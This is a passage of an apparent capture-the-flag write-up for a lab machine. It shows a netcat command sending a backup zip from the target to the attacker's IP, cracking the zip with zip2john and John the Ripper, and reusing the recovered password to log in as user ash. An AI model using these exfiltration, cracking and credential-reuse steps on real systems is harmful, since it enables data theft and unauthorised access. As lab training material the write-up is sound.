 ### Zipfile Cracking  

First I transferred the backup file from /var/www/html/files/ to /tmp. Then, it was time to get the file to my own Kali machine so that I could crack it with Zip2John and JohnTheRipper.  

I setup a quick Netcat listener to accept a file as input on my Kali machine, then hosted the backup .zip file on the host machine via Netcat as well.  

```bash
$ cp /var/www/html/files/16162020_backup.zip /tmp/crackme.zip  

MY KALI MACHINE:
nc -l -p 8899 > crackme.zip 

HOST MACHINE:
nc -w 3 10.10.14.27 8899 < crackme.zip
```  

Now that it was on my machine, I could crack it to get the password using 2 commands:  

```bash
$ zip2john crackme.zip > hash.txt 

crackme.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::crackme.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:crackme.zip

$ john --wordlist=~/rockyou.txt hash.txt  

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (crackme.zip)
Session completed.  
```  

So, we get a password to unzip the file: **admin@it**  

Now, back on the host machine I type 'unzip /tmp/crackme.zip' and use the password, and it works well. However, there is not much new or any useful information here.  

But, if we remember, this is **ash's** file, which means he likely set the password for it. Let's give this **admin@it** password a go on his user account.  

```bash
$ su ash
Password: admin@it
ash@tabby:/tmp/var/www/html$
```  
